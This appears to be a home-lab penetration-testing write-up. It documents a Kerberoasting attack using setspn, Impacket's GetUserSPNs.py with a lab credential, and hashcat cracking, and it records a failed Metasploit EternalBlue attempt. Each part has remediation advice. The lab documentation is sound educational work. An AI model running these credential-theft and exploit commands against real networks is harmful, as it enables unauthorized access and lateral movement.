



# Kerberoasting Attack

## What Is Kerberoasting?
Kerberoasting is an Active Directory attack technique where 
an authenticated domain user requests Kerberos service tickets 
for accounts with Service Principal Names (SPNs). These tickets 
are encrypted with the service account's password hash and can 
be cracked offline without generating suspicious network traffic.

## Why This Is Dangerous
Any authenticated domain user can perform this attack — no 
special privileges required. If service accounts use weak 
passwords they can be cracked and used for lateral movement 
or privilege escalation.

## Environment
| Role | Machine | IP |
|---|---|---|
| Attacker | Kali Linux | 192.168.56.103 |
| Domain Controller | DC01 | 192.168.56.101 |
| Victim Workstation | WS01 | 192.168.56.102 |

## Attack Steps

### Step 1 — Create Service Account with SPN on DC01
Created a service account `svc-sql` in the IT OU to simulate 
a real enterprise service account running SQL Server.

```bash
setspn -a MSSQLSvc/DC01.chamizo.justin:1433 chamizo\svc-sql
```



### Step 2 — Extract Kerberos Hash from Kali
Used Impacket's GetUserSPNs.py to authenticate as domain 
user jsmith and extract the service ticket hash for svc-sql.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py chamizo.justin/jsmith:Password123! -dc-ip 192.168.56.101 -request -outputfile hash.txt
```



### Step 3 — Crack the Hash Offline
Used hashcat with the rockyou wordlist to crack the 
extracted Kerberos TGS hash offline.

```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt --force
```


## Result
Successfully extracted and cracked the svc-sql service account 
password using only standard domain user credentials. This 
demonstrates that any authenticated user on the network can 
potentially compromise service accounts with weak passwords.

## Impact
- Attacker gains credentials for svc-sql service account
- Could be used for lateral movement across the network
- Could be used to access SQL Server resources
- No special privileges or admin access required to perform attack
- Attack generates minimal logs making it hard to detect

## Remediation
- Use passwords of 25+ characters for all service accounts
- Implement Group Managed Service Accounts (gMSA) which 
  automatically rotate passwords
- Audit all accounts with SPNs regularly:
```bash
  Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
- Monitor for unusual Kerberos TGS requests in Windows Event Logs
- Implement Privileged Access Workstations (PAWs) for admin accounts

# EternalBlue Exploitation Attempt (MS17-010)

## What Is EternalBlue?
EternalBlue is a critical SMB vulnerability (CVE-2017-0144) that 
allows remote code execution on unpatched Windows machines. It was 
used in the WannaCry ransomware attack in 2017 and remains one of 
the most well known vulnerabilities in cybersecurity.

## Attempted Exploitation

### Commands Run
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.56.102
set LHOST 192.168.56.103
run
```



## Result
The exploit returned "The target is not vulnerable." WS01 running 
Windows 10 22H2 was already patched against MS17-010 by default.

## Why This Is Actually Important
This demonstrates a key real-world finding — modern patched systems 
are not vulnerable to EternalBlue. This is exactly what a penetration 
tester would document in a real report: attempted exploitation, 
result, and why the system was not vulnerable.

## What Was Done Instead
Pivoted to Kerberoasting — a more modern and relevant Active Directory 
attack technique that works regardless of OS patch level. See 
kerberoasting.md for full documentation.

## Remediation Notes
For systems that ARE vulnerable to MS17-010:
- Apply Microsoft patch MS17-010 immediately
- Disable SMBv1 on all Windows machines:
```bash
  Set-SmbServerConfiguration -EnableSMB1Protocol $false
```
- Block port 445 at the network perimeter
- Implement network segmentation to limit lateral movement


## Key Takeaway
Kerberoasting requires no special tools or privileges — just 
a valid domain account. This makes it one of the most common 
and dangerous Active Directory attack techniques in real 
enterprise environments.
